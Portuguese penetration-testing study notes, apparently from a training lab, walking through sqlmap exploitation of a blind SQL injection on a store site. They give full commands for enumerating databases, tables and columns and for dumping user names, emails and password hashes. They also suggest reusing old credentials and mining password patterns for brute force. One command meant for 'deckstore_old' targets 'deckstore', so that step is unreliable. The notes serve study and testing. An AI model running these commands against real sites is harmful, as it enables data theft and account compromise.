








---

>Titulo: Dia 3.2 - Explorando a vulnerabilidade SQLi
>
>Fase: exploration
>
>Dia: 3

[SQLmap](../../0-assets/tools/SQLmap.md)

[SQL Injection](../../0-assets/vulnerabilities/SQL%20Injection.md) 

#Blind-SQLI 

---

Agora já iremos partir para o uso de uma ferramenta profissional e própria para este tipo de teste.
Novamente testando nosso Entry Point do produto 864.

```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --current-db --threads=100
```

Explicação do código:

```python
sqlmap       | Ferramenta automática para detectar e explorar SQLi
-v           | Ativa modo verboso, mostra mais detalhes da execução
-u           | Define a URL alvo do teste
<URL>        | Parâmetro GET potencialmente injetável
--current-db | Obtém o nome do banco de dados em uso no servidor
--threads=100| Executa até 100 requisições simultâneas para acelerar o ataque
```

Onde ele irá retornar as seguintes informações:


Novamente podemos ver o nome do banco "deckstore" e suas informações, mas vamos levar isso para um nível acima.

```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --dbs --threads=100
```

Explicação do código:

```python
sqlmap       | Ferramenta automática para detectar e explorar SQLi
-v           | Ativa modo verboso, mostra mais detalhes da execução
-u           | Define a URL alvo do teste
<URl>        | Parâmetro GET potencialmente injetável
--dbs        | Enumera todos os bancos de dados do servidor alvo
--threads=100| Executa até 100 requisições simultâneas para acelerar o ataque
```

Onde irá trazer as informações de todas as bases de dados que ele conseguir identificar.

Podemos ver as bases de dados
>deckstore
>deckstore_old
>information_schema
>mysql
>performance_schema
>sys

Agora que escolhemos uma base de dados, vamos buscar descobrir as tabelas dela.

```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --threads=10 -D deckstore --tables
```

Explicação do código:

```python
sqlmap       | Ferramenta automática para detectar e explorar SQLi
-v           | Ativa modo verboso, exibe detalhes da execução
-u           | Define a URL alvo do teste
<URL>        | Parâmetro GET potencialmente injetável
--threads=10 | Usa até 10 requisições simultâneas
-D deckstore | Seleciona o banco de dados chamado deckstore
--tables     | Lista todas as tabelas do banco de dados selecionado

```

Onde irá nos retornar:


A partir daqui já conseguimos fazer dump de dados de clientes, com informações pessoais.
Vamos ver os dados que conseguimos da tabela usuários.

```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --threads=10 -D deckstore -T usuarios --columns
```

```python
sqlmap        | Ferramenta automática para detectar e explorar SQLi
-v            | Ativa modo verboso, exibe detalhes da execução
-u            | Define a URL alvo do teste
<URL>         | Parâmetro GET potencialmente injetável
--threads=10  | Usa até 10 requisições simultâneas
-D deckstore  | Seleciona o banco de dados chamado deckstore
-T usuarios   | Seleciona a tabela chamada usuarios
--columns     | Lista todas as colunas da tabela selecionada
```

Que irá retornar:


Agora sabendo as colunas, podemos fazer um dump com os dados
```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --threads=10 -D deckstore -T usuarios -C 'nome,email,senha' --dump
```

Explicação do código:

```python
sqlmap        | Ferramenta automática para detectar e explorar SQLi
-v            | Ativa modo verboso, exibe detalhes da execução
-u            | Define a URL alvo do teste
<URL>         | Parâmetro GET potencialmente injetável
--threads=10  | Usa até 10 requisições simultâneas
-D deckstore  | Seleciona o banco de dados chamado deckstore
-T usuarios   | Seleciona a tabela chamada usuarios
-C            | Define as colunas que serão extraídas
--dump        | Extrai e exibe os dados das colunas selecionadas
```

Que irá retornar:


Aqui já temos informações do usuário DecStore.
Perceba que temos o nome, login e senha em hash, e a própria ferramenta oferece para tentar quebrar o hash da senha por meio de brute force.
Vamos optar por não, pois podemos usar outras técnicas para isso.
Ficamos então com as informações:


Vamos repetir o mesmo processo com a tabela "deckstore_old", pois precisamos explorar todas as possibilidades na própria superficie que estamos, antes de testar outras técnicas.

Vamos fazer então este comando:
```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --threads=10 -D deckstore_old --tables
```

###### Explicação do código
```python
sqlmap          | Ferramenta automática para detectar e explorar SQLi
-v              | Ativa modo verboso, exibe detalhes da execução
-u              | Define a URL alvo do teste
<URL>           | Parâmetro GET potencialmente injetável
--threads=10    | Usa até 10 requisições simultâneas
-D deckstore_old| Seleciona o banco de dados chamado deckstore_old
--tables        | Lista todas as tabelas do banco de dados
```

E vimos que ele retornou só uma tabela, a tabela usuarios.

Em seguida fazemos o dump da tabela.

```python
sqlmap -v -u "http://decstore.com.br/produtos.php?prod=864" --threads=10 -D deckstore -T usuarios --dump
```

###### Explicação do código
```python
sqlmap        | Ferramenta automática para detectar e explorar SQLi
-v            | Ativa modo verboso, exibe detalhes da execução
-u            | Define a URL alvo do teste
<URL>         | Parâmetro GET potencialmente injetável
--threads=10  | Usa até 10 requisições simultâneas
-D deckstore  | Seleciona o banco de dados chamado deckstore
-T usuarios   | Seleciona a tabela chamada usuarios
--dump        | Extrai e exibe todos os dados da tabela selecionada
```

Que irá retornar:

Aqui nós já conseguimos obter credenciais que podem permitir acessar outros serviços, mesmo que sejam credenciais possivelmente antigas, por causa do nome da base "deckstore_old", podem ainda estar sendo utilizadas em algum outro serviço, e mesmo que não estejam em uso, podem servir para identificarmos os padrões de senhas, uso de números ou carácteres especiais, assim tendo parâmetros específicos para um possível brute force.

---

Desde o começo nós já sabiamos que este banco era vulnerável, desde os primeiros comandos onde ele entregou informações sobre o banco, onde uma print dessa informações, já seriam uma prova, por isso fomos mais a fundo nos testes para comprovar de fato, a vulnerabilidade.


---

